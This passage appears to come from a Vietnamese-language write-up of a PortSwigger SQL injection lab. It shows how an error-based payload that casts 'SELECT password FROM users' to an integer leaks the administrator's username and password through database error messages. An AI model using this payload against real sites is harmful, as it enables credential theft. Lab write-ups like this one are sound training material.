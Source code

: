 => Website trả về thông báo lỗi *ERROR: invalid input syntax for type integer: "administrator"*

=> Thông báo lỗi tiết lộ tên người dùng đầu tiên từ bảng users là **administrator**.

Chỉnh sửa payload thành **' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--**: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image178.png?raw=true)

Send request, quan sát response: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image179.png?raw=true)
